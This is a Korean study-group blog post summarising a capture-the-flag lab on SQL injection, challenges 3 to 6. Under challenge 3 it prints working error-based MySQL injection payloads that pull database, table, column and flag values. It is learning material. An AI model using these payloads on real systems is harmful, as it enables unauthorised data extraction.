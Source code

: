 ```yaml
---
layout: post
title:  노말틱 모의해킹 스터디 7주차 워게임 정리 
author: leewoojin
date: 2025-05-28 00:00:00 +0900
categories: [Pentest, W7]
tags: []
---
```


## SQL Injection 3
### 문제 
```
이 세상은 에러 천지야.. ㅠㅜ

flag를 찾아주세요.!

계정 : normaltic / 1234
```
<img width="365" alt="Image" src="https://github.com/user-attachments/assets/09a98ab5-9ff7-45df-8534-62f14434e7b1" />

### 1. DB 에러 메시지 유도
```
Could not update data: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''normaltic''' at line 1
```

### DB 이름 찾기 
```
' AND updatexml(1, concat(0x7e, (SELECT database())), 1)-- 
```
> Could not update data: XPATH syntax error: '~sqli_2'

### 테이블 이름 찾기 
```
' AND updatexml(1, concat(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1 OFFSET 0)), 1)-- 
```
> flag_table , member 총 2개 테이블 발견

### 컬럼명 찾기 
```
' AND extractvalue(1, concat(0x7e, (SELECT column_name FROM information_schema.columns WHERE table_schema='sqli_2' AND table_name='flag_table' LIMIT 0,1)))and'1'='1
```
> flag

### 데이터 찾기 
```
' AND extractvalue(1, concat(0x7e, (SELECT flag FROM flag_table LIMIT 0,1)))and'1'='1
```

## SQL Injection 4

### db
sqli_2_1

### table 
flag_table, 

### column
flag1~8

### data 
노가다로 하나씩 찾으면 성공 ~ (자동화 코드 쓸걸)

## SQL Injection 5
해당 문제는 해당 문제는 **에러 메시지를 출력하지 않고**, 참/거짓 여부만으로 판단할 수 있는 **Blind SQL Injection** 유형입니다.

<img width="370" alt="Image" src="https://github.com/user-attachments/assets/8b14e262-0ec0-4247-83a0-98817e09dc17" />

자동화 코드를 사용하여 

### database
sqli_2_2

### table 
flagTable_this

### column
idx, flag

### Data 
이 문제, 진짜 플래그 하나 찾으려면 가짜 플래그 13개 정도는 보고 가야 함

## SQL Injection 6

### database 
sqli_3

### table 
flag_table

### column
flag

### data 
전 문제는 가짜 플래그에 낚여서 고생했는데, 이번 문제는 깔끔하게 정답 플래그가 바로 나와서 Good 👍

